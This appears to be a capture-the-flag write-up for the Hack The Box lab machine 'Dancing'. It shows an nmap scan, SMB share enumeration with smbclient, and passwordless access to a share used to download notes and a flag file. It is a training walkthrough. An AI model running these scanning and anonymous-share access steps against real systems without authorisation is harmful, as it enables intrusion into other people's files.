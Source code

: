 # Box: Dancing
ID: 3
Difficulty: Easy

## 🧠 Attacker Environment
- **Host OS**: Parrot Security OS (VM)

## 🛠️ Tools Used
  - `ping`
  - `nmap`

## 🎯 Target Environment
- **Ip Address**: 10.129.10.250
- **OS**: Windows

## 🧠 Recon
Nmap Scan:
```bash
nmap -sV 10.129.10.250
```
## 🔍 Enumeration
- Found an open port **135/tcp**, running **msrpc** service
- Found an open port **139/tcp**, running **netbios-ssn** service
- Found an open port **445/tcp**, running **microsoft-ds?** service

## 💥 Exploitation
Logged in via SMB:
```bash
smbclient -L 10.129.10.250
```
## Shares Available
- **ADMIN$**: hidden network shares created by Windows NT that allows admins to have remote access to every disk volume on a network-connected system
- **C$** Admin share for the C:\ disk volume
- **IPC$**inter-process communication share (not part of file system)
- **WorkShares$**custom share

## Authentication
````bash
smbclient \\\\10.129.10.250\\ADMIN$ = ❌
smbclient \\\\10.129.10.250\\C$ = ❌
smbclient \\\\10.129.10.250\\WorkShares = ✅ **Success** 
````

## File Discovery
1. Used ls to list all contents of the share:
```bash 
smb: \> ls
```
2. Found two directories:
Amy.J
James.P

3. Navigated into the Amy.J directory and retrieved notes:
```bash 
smb: \> cd Amy.J
smb: \Amy.J\> ls
smb: \Amy.J\> get worknotes.txt
```
4. Went back and accessed James.P:
```bash 
smb: \Amy.J\> cd ..
smb: \> cd James.P
smb: \James.P\> ls
smb: \James.P\> get flag.txt
```
## 🔐 Privilege Escalation
Not required - accessed another user's desktop via SMB

## 🧼 Cleanup & Lessons
- smbclient session closed cleanly
- **Key takeaways**: 
- Enumerate all shares, always try no password
